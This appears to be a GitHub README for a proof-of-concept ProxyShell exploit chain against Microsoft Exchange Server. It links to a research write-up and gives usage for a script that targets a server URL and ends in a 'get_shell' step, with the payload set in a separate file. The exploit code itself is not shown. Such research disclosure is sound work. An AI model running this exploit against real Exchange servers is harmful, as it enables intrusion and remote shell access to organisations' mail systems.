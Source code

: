 # Proxyshell-Exchange

Full write-up will be published here: https://mr-r3bot.github.io/researches/2021/08/16/My-journey-to-reproduce-Proxyshell-(reported-by-Orange-Tsai).html

- Poc script for ProxyShell exploit chain in Exchange Server
- Status: Finished

Modify your own payload in `encode_payload.py` file
------------
Usage

```
python proxyshell.py -u https://<exchange_server> -e <email> -p <local_wsman_port>

...
PS> get_shell
```
